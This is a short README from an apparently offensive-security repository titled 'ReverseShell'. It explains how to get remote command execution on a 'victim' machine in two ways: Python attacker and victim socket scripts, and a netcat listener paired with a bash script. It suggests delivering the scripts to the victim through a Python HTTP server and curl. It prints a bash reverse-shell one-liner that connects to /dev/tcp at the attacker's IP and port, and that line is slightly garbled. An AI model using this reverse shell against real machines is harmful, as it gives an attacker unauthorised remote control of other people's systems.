







# ReverseShell

How to establish a reverse connection between two machines.

This repository has two versions:

The first one, the most basic, is based on the creation of a server socket by the attacking machine while from the victim machine a client socket is created that connects to the server socket. Once the connection is established, the attacking machine can send the commands to be executed on the victim machine and the victim machine sends back the response. In this version it is not possible to escalate privileges or to execute several commands using sockets.

The second, more complete, consists of using netcat on the attacking machine to subsequently establish a connection with the victim machine.

# Execution

In none of the versions it is necessary to install any dependency.

## v1

First, we must run the attacker.py script from the attacking machine to keep it waiting to establish a connection with the victim machine:

Subsequently, we run the victim.py script from the victim machine, and done this the connection will be established and it will already be possible to execute commands from the attacker machine receiving from the victim the output of that command:

## v2

First of all, we must use the netcat tool on the attacking machine. tool on the attacking machine so that it will listen in:

Subsequently, run the bash script (rs.sh) from the victim machine, so that a connection will be established on the attacking machine and commands can be executed:

# Additional comments

1. In both test cases, we had access to both machines and in order to pass both the python script (victim.py) and the bash script (rs.sh) we launched a python http server so that from the victim machine it was as easy as doing a curl or accessing the web server:

	

- What I mean by this is that the way to get the scripts executed will vary depending on the services running on the victim machine and whether or not you have terminal access to it.

2. The bash script is as follows:

   bash -i >& /dev/tcp/`<ip>`/`<port>`&1

   whose ip value will be the IP of the attacking machine and port the port on which the attacking machine is listening with netcat
